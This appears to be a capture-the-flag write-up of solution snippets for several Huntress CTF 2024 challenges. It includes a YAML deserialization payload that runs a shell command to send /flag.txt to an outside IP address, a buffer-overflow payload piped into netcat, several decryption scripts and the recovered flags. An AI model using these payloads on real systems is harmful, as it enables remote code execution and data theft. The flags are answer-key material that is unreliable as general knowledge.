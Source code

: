 # Huntress CTF 2024!

**Y2J**

    !!python/object/apply:os.system ["wget [http://54.158.37.106:8000/](http://54.158.37.106:8000/)?`cat /flag.txt`"]

**GoCrackMe1**

    >>> encrypted_string = "0:71-44coc``3dg0cc3c`nf2cno0e24435f0n+" 
    >>> xor_key = 0x56 
    >>> decrypted_chars = [chr(ord(c) ^ xor_key) for c in encrypted_string] 
    >>> decrypted_string = ''.join(decrypted_chars) 
    >>> decrypted_string 
    'flag{bb59566e21f55e5680d589f3dbbec0f8}'

**Echo Chamber**

    >>> from scapy.all import * 
    >>> packets = rdpcap('../echo_chamber.pcap') 
    >>> rawlist = [] 
    >>> for i in packets: 
	... 	x = str(i[Raw].load) 
	... 	for k in range(5,8): 
	... 		if x[-k] == x[-8]: 
	... 			rawlist.append(x[-8])  
	>>> flag = "" 
	>>> new_rawlist = rawlist[::6] 
	>>> for letter in new_rawlist: 
	... 	flag += str(letter)

**Baby Buffer Overflow - 32bit**

    (echo -ne "AAAAAAAAAAAAAAAABBBBCCCCBBBB\xf5\x91\x04\x08"; cat) | nc challenge.ctf.games 30440


**Strive Marish Leadman TypeCDR**

    >>> p = 0xe74401dbb278dd97826cd025b01e35877912256cc3d85ba84c739c0d952bd6b08b0af5ee6dac87fb3a7e9b9b9d7c5be22213e5ff3807fa87627bd408e0f2da53 
    >>> q = 0xdabd2ed743e99869e8c4c171db9eee47d336659a59152903d39ddc09a81d56bff4dc75b488ca9c327368e4d4f48610421e6861d3c390d30d979740568247dee5 
    >>> d = 0xbdc326fc424eb9a2f0814d5ead0f7f40876bad0d71fe6230f89b5c562c0997dcdb76bb57fedfaf1288017c259c05bf71ab04e6152aa05599b7d8c0a4cd08ead9242e0e9074b384e7d4280863a58d08092cfc180151e8606a3b035ea7c49d79f9edfa23f255e968e05995c9a19d390b4cd6c868988e5e953713c3d8aff476a6c1 >>> e = 0x10001 
    >>> n = 0xc59ad11b24fa8c957830eed9ce87befbb2fe1928a3cb5d9e291decdf43e97f5bf11c5ef30ec5b5f219eb4178030a3b628b4d5abb91b55a14f22e1cd2453cea921b10eb2f7a41c388248bebc72d7012af97477d51481dd9e0131b6ef5a34a68880f222a2eab369b8bc3ed4e9df5db25c784becab53c7294fbcf752d1e8596463f 
    >>> ciphertext = 0x7779ecc4329280a221b53af51e42da43ccefcb769269354ea526e16b776c194dcfcfe26d83a8e3ae457d1013a4100ba2682b416e52f9faa3fd7c2a1b183149c7cf860f7c5516f9122426d20709746b116bd65bfb14ad00660436d57c001aba7857e9e59a1c6cb5983eee439bd3cb410e0e2594b995b363c3830e66482a0af39d 
    >>> plaintext = pow(ciphertext, d, n) 
    >>> plaintext_bytes = plaintext.to_bytes((plaintext.bit_length() + 7) // 8, 'big') 
    >>> print(plaintext_bytes.decode('utf-8')) 
    flag{cf614b15ac1dd461a2e48afdfe21b8e8}


**Obfuscation Station**

    >>> import base64 
    >>> import zlib 
    >>> b64_string = 'UzF19/UJV7BVUErLSUyvNk5NMTM3TU0zMDYxNjSxNDcyNjexTDY2SUu0NDRITDWpVQIA' 
    >>> decoded_data = base64.b64decode(b64_string) 
    >>> decompressed_data = zlib.decompress(decoded_data, -15) 
    >>> decompressed_text = decompressed_data.decode('ascii') 
    >>> print(decompressed_text) 
    $5GMLW = "flag{3ed675ef0343149723749c34fa910ae4}"

**Stack It**

    >>> unk_804A00E = [
    ...     0x53, 0x51, 0x51, 0x55, 0x52, 0x5E, 0x56, 0x07, 0x01, 0x04,
    ...     0x0D, 0x02, 0x00, 0x03, 0x56, 0x5B, 0x0F, 0x50, 0x07, 0x01,
    ...     0x53, 0x50, 0x0B, 0x50, 0x55, 0x00, 0x51, 0x5B, 0x01, 0x06,
    ...     0x53, 0x06
    ... ]
    >>> 
    >>> unk_804A02E = [
    ...     0x31, 0x65, 0x63, 0x66, 0x66, 0x38, 0x62, 0x65, 0x63, 0x65,
    ...     0x39, 0x34, 0x38, 0x36, 0x32, 0x38, 0x37, 0x64, 0x63, 0x37,
    ...     0x36, 0x35, 0x32, 0x31, 0x61, 0x38, 0x34, 0x62, 0x62, 0x37,
    ...     0x63, 0x30
    ... ]
    >>> 
    >>> result = [a ^ b for a, b in zip(unk_804A00E, unk_804A02E)]
    >>> flag = ''.join(chr(x) for x in result) + '}'
    >>> flag
    'b4234f4bba4685dc84d6ee9a48e9c106}'

